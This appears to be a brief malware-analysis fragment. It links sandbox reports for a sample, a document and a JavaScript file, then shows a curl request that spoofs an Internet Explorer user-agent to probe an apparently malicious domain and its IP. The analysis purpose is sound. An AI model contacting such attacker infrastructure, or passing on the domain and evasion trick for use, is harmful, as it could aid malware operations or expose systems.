 Sample: https://www.hybrid-analysis.com/sample/af9ed7de1d9d9d38ee12ea2d3c62ab01a79c6f4b241c02110bac8a53ea9798b5/5b0bdfff7ca3e145a22ff941

DOC: https://app.any.run/tasks/2a83b3f6-8eb2-4a55-b077-9d20eb2c63d4

JS: https://app.any.run/tasks/3705a1c8-a57f-42fe-9ff1-23e045f2d16a

$ curl -v -A "Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 7.0; InfoPath.3; .NET CLR 3.1.40767; Trident/6.0; en-IN)" http://secure.n-document.biz/humans.txt
Trying 185.180.196.53...
